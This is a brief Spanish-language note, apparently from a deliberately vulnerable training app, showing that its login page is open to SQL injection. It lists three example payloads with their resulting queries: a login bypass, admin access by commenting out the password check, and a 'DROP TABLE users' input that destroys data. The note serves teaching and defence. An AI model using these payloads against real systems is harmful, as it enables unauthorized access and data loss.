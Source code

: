 Inyección SQL
El login page es vulnerable a ataques de inyección SQL
Probar los siguientes ejemplos:
A. Esto iniciará sesión con la primer cuenta en la tabla users
    username: ' OR 1=1 --
    password: lo que sea
    SELECT * FROM users WHERE username = '' OR '1'='1' AND password = 'anything'
B. Checar directamente si existe una cuenta admin
    usename: admin' --
    password: (blank)
    SELECT * FROM users WHERE username = 'admin' -- ' AND password = ''
C. Eliminar la tabla usuarios (si se prueba, reiniciar la aplicación)
    Username: admin'; DROP TABLE users; --
    Password: (leave blank)
    SELECT * FROM users WHERE username = 'admin'; DROP TABLE users; -- ' AND password = ''
* La solución hace que los inputs (username, password), sean tratados como inputs y no como código SQL directamente *

